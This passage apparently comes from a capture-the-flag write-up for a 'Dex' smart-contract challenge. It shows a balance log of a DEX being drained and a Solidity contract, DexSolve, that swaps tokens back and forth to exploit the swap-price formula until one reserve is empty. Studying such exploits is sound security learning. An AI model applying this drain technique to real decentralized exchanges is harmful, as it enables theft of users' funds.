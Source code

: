 ```bash
Token2 balance: 65
========   DEX   ========
Token1 balance: 110
Token2 balance: 45
Token1->Token2: 0.409
Token2->Token1: 2.444

Swapping 45 Token 2 to Token 1

======== Account ========
Token1 balance: 110
Token2 balance: 20
========   DEX   ========
Token1 balance: 0
Token2 balance: 90
Token1->Token2: N/A
Token2->Token1: 0
```

#### DexSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Dex.sol';
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract DexSolve {

    constructor() public {}

    function drain (address payable _dex) public payable {
        Dex dex = Dex(_dex);
        IERC20 token1 = IERC20(dex.token1()); // redundant but left for clarity
        IERC20 token2 = IERC20(dex.token2()); // redundant but left for clarity

        uint256 amount;
        IERC20 from = token1;
        IERC20 to = token2;
        IERC20 temp;
        
        while (token1.balanceOf(address(dex)) != 0 && token2.balanceOf(address(dex)) != 0) {

            uint256 fromBalance = from.balanceOf(address(this));
            from.approve(address(dex), fromBalance);
            amount = fromBalance;
            uint256 dexToAmount = to.balanceOf(address(dex));
            uint256 buyPotential = dex.getSwapPrice(address(from), address(to), amount);
            if (buyPotential > dexToAmount) {
                amount = dex.getSwapPrice(address(to), address(from), dexToAmount);
            }
            dex.swap(address(from), address(to), amount);

            temp = from;
            from = to;
            to = temp;

        }
    }

}
```
